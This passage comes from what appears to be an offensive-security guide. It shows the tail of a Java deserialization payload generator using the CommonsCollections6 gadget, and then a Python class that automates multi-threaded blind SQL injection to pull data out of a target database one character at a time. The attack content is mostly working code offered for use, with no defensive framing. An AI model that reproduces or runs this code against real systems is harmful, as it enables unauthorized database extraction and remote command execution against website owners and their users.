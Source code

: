 ```python
        'CommonsCollections6', command
    ])
    return payload
```

**SQL Injection Automation**[13][24]

Advanced blind SQL injection with multi-threading:

```python
import threading
import string

class BlindSQLInjection:
    def __init__(self, url, injection_point, threads=10):
        self.url = url
        self.injection_point = injection_point
        self.threads = threads
        self.charset = string.ascii_letters + string.digits + '_@.'
        
    def extract_data(self, query_template, max_length=50):
        """Multi-threaded blind SQLi data extraction"""
        result = [''] * max_length
        threads = []
        
        def check_character(position):
            for char in self.charset:
                payload = query_template.format(
                    position=position + 1, 
                    char=ord(char)
                )
                
                if self.test_condition(payload):
                    result[position] = char
                    return
        
        for i in range(max_length):
            t = threading.Thread(target=check_character, args=(i,))
            threads.append(t)
            t.start()
            
            if len(threads) >= self.threads:
                for thread in threads:
                    thread.join()
                threads = []
        
        return ''.join(result).rstrip('\x00')
```

### Performance Optimization Techniques

**Request Optimization**[13][25]
